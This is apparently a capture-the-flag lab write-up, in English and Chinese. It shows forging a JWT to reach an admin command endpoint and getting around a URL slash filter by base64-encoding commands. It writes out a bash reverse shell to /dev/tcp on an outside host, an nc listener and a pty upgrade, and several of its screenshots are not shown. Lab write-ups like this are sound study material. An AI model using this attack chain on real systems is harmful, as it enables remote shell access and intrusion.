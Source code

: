 ( `”debug”: true` 是新增的一行， `HMACSHA256` 下将 `your-256-bit-secret` 改为 `JWT_SECRET` )

![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/Untitled%208.png20220417a.png)

### set new jwt  to `/api/v1/admin/exec/whoami`

before you set your new jwt

![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/Untitled%209.png20220417a.png)

after you set your new jwt

![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/Untitled%2010.png20220417a.png)

## bypass slash restrict in url

<aside>
💡 Notice: you should enter more space to prevent `+` in your base64 encode string(it will influence the header’s url constructing)
but if you will urlencode all your string,it doesn’t matter

</aside>

when you try `/api/v1/admin/exec/echo%20"AB\/C"` or `/api/v1/admin/exec/echo%20"AB%2FC"` the slash will be seen as the part of url

so,you should use base64 to encode the slash

```bash
echo 'bash -i >& /dev/tcp/10.10.14.8/9001  0>&1' | base 64 -w 0
```

your local bash should use nc to listen the port

```bash
nc -lvnp 9001
```

then put the base64 encode into url and add `| base64 -d | bash`  to decode base64 and exec as bash command

![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/Untitled%2011.png20220417a.png)

then urlencode all your payload and send it !

you local nc  will get shell

## getting a reverse shell

这块感觉要多学学

after nc get shell, input 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
